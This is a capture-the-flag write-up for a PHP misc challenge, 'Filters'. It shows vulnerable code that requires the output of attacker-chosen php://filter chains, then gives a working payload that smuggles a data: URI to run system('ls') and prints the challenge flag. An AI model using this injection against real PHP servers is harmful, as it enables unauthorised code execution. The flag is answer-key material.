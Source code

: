 # Filters

a misc challenge with 10 solves at the end.

## Challenge

```
<?php

isset($_POST['filters'])?print_r("show me your filters!"): die(highlight_file(__FILE__));
$input = explode("/",$_POST['filters']);
$source_file = "/var/tmp/".sha1($_SERVER["REMOTE_ADDR"]);
$file_contents = [];
foreach($input as $filter){
    array_push($file_contents, file_get_contents("php://filter/".$filter."/resource=/usr/bin/php"));
}
shuffle($file_contents);
file_put_contents($source_file, $file_contents);
try {
    require_once $source_file;
}
catch(\Throwable $e){
    pass;
}

unlink($source_file);

?> 1
```

## Solution - Probably unintended

We solved this with simple trick, Accoring to rfc, the data url's format is:

```
data:[<mediatype>][;base64],<data>
```

The parts in `[]` are optional, and default media type is `plain/text`, So this payload
```
resource=data:,<?php%20system('ls');%20?>
```

would construct

```
php://filter/resource=data:,<?php%20system('ls');%20?>/resource=/usr/bin/php
```

which generates

```
<?php system('ls'); ?>/resource=/usr/bin/php
```

And the flag is <b>n1ctf{https_www_arknights_global}</b>

